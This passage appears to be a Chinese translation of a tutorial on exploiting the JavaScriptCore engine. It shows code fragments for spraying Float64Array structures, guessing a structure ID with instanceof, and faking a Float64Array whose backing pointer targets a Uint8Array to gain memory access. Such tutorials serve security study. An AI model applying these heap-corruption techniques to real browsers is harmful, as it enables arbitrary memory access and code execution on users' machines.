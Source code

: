 ```javascript
for (var i = 0; i < 0x1000; i++) {

        var a = new Float64Array(1);

        // Add a new property to create a new Structure instance.

        a[randomString()] = 1337;

    }

```

我们可以使用'instanceof'验证猜测是否正确，如果我们没有，我们只有使用下一个结构。

```javascript
 while (!(fakearray instanceof Float64Array)) {

        // Increment structure ID by one here

    }

```

`Instanceof`是一个相当安全的操作，它只会获取结构，并从中获取继承类型，并与给定的继承类型进行指针比较。

## 6.2-伪造Float64数组

Float64数组由本地JSArrayBufferView类实现。除了标准的JSObject字段之外，这个类还包含指向后备存储器的指针（我们将其称为“向量”，类似于源码）、长度和模式字段（32位整数）。

由于我们将浮点值为64的数组放在另一个对象（从现在开始称为“容器”）的内联插槽中，我们必须处理由于JSValue编码而产生的一些限制。特别是，

* 不能为"Butterfly"设置nullptr指针，因为null不是有效的JSValue。 简单元素访问操作，不会访问“Butterfly”，这也是很好的

* 不能设置有效的模式字段，由于Nan-boxing，它必须大于0x00010000。但我们可以自由地控制长度字段。

* 只能将向量设置为指向另一个JSObject，因为这些是JSValue可以包含的唯一指针

为了突破最后一个限制，我们将设置Float64Array的向量来指向一个Uint8Array实例：

```c

+----------------+                  +----------------+

|  Float64Array  |   +------------->|  Uint8Array    |

|                |   |              |                |

|  JSCell        |   |              |  JSCell        |

|  butterfly     |   |              |  butterfly     |

|  vector  ------+---+              |  vector        |

|  length        |                  |  length        |

|  mode          |                  |  mode          |

+----------------+                  +----------------+

```
